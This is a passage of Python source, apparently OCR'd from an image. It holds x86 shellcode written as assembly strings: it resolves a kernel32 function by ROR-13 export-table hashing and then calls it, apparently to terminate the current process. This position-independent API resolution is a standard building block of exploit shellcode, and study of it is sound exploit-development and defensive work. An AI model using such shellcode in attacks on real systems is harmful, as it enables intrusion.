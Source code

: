 ```python
"  add edi, ebx ;"
"  mov ecx, [edi+0x18] ;"
"  mov eax, [edi+0x20] ;"
"  add eax, ebx ;"
"  mov [ebp-4], eax ;" 

" find_function_loop: " 
"  jecxz find_function_finished ;" 
"  dec ecx ;"
"  mov eax, [ebp-4] ;"
"  mov esi, [eax+ecx*4] ;"
"  add esi, ebx ;"

" compute_hash: " 
"  xor eax, eax ;"
"  cdq ;"
"  cld ;"

" compute_hash_again: " 
"  lodsb ;"
"  test al, al ;"
"  jz compute_hash_finished ;" 
"  ror edx, 0x0d ;"
"  add edx, eax ;" 
"  jmp compute_hash_again ;" 

" compute_hash_finished: " 
"  find_function_compare: "
"  cmp edx, [esp+0x24] ;"
"  jnz find_function_loop ;"
"  mov edx, [edi+0x24] ;"
"  add edx, ebx ;"
"  mov cx, [edx+2*ecx] ;"
"  mov edx, [edi+0x1c] ;"
"  add edx, ebx ;"
"  mov eax, [edx+4*ecx] ;"
"  add eax, ebx ;"
"  mov [esp+0x1c], eax ;"

" find_function_finished: "
"  popad ;"
"  ret ;" 

" resolve_symbols_kernel32: "
"  push 0x78b5b983 ;" # Hash of Func 
"  call dword ptr [ebp+0x04] ;" # Call find_function
"  mov [ebp+0x10], eax ;"

" exec_shellcode: "
"  xor ecx, ecx ;"
"  push ecx ;"
"  push 0xffffffff ;"
"  call dword ptr [ebp+0x10] ;" # Call Func
)
```
